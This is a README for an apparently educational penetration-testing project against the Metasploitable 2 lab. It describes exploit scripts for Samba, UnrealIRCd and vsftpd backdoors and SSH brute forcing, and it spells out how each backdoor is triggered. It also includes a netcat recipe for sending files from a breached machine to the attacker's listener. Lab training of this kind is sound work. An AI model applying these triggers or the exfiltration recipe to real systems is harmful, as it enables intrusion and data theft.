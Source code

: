 # 4240project

## Description:
This project will show a few examples of system penetration. I will be using two virtual machines (both running Ubuntu linux version 22.04) with one running the Metasploitable 2 test environment (https://sourceforge.net/projects/metasploitable/). I have included four python scripts to explore four of the vulnerabilities present on the test environment. Once each script is run (following the proper execution) the user will have full access to the remote system.

When presenting these examples I will be going through these steps
- network scanning 
- vulnerbility assessment
- exploitation
- post-exploitation

## Purpose:
- The purpose of this project is to provide a deeper understanding for learning about system vulnerabilities and the exploitation techiniques used to exploit them. Instead of using the metasploit software to exploit the system vulnerabilites of metasploitable 2, I have created python scripts to do it instead. Doing this helps to gain a detailed explanation as to what is going on behind each exploit attempt. By viewing the documented python code, the user should have a further understanding of system security.

## System Requirements:
- Metasploitable 2
- Virtualbox 

## Exploits/Vulnerabilities:

### SAMBA CVE-2007-2447 
- Version: 3.0.20 < 3.0.25rc3
- Desc: Samba is a software that is a re-implmentation of the SMB networking protocol. This software provides file and print services for all clients as long as they are using the SMB protocol .
- Exploit: If Samba is configured to use the non-default username map script, anyone can send arbitrary commands in disguise as a username to the server. The command will then be run without needing authorization.

### UnrealRCD CVE-2010-2075
- Version: 3.2.8.1 
- Desc: UnrealRCD is a daemon for Internet Realy Chat usage in order to provide chat services.
- Exploit: UnrealRCD contains an exploit where it will execute any command send to the service if it begins with the string 'AB'. Ex: AB; [command to run]

### VSFTP CVE-2011-2523
- Version: 2.3.4
- Desc: VSFTP is an FTP server for linux. 
- Exploit: The exploit occurs when a user tries to login with a username that ends with ':)'. This opens a shell on port 6200, allowing the attacker unauthenticated access.

### SSH (BRUTE FORCE EXAMPLE)
- Version: Any.
- Desc: The SSH service allows for communication between a computer network. 
- Exploit: This is less of an exploit and more of poor system security. Users can prevent brute force attacks by incorporating a proper firewall to filter out ip addresses, using public key authentication, using strong and unqiue passwords, etc....

## Post-Exploitation Example:
- After gaining access to the remote system and starting a shell session, the user can manually use netcat to search for a specified file. Here is an example:
  - Open a terminal on the local host and run "nc -lnvp [portnum] > [file for info to be stored]"
  - On the remote machine (the breached machine) run the command " [IP of local machine] [portnum] < [file path to be retrieved]

# Guide To Testing:
- Samba:
  - Python3 samba.py
    - [RHOST] [RPORT] [LHOST] [LPORT]
- SSH:
  - Python3 sshBruteForce.py
    - [RHOST]
    - [RPORT]
- UnrealRCD:
  - Python3 unrealIRCD.py
    - [RHOST] [RPORT] [LHOST] [LPORT]
- VSFTP:
  - Python3 ftpExploit.py
    - [RHOST] [RPORT] [COMMAND]
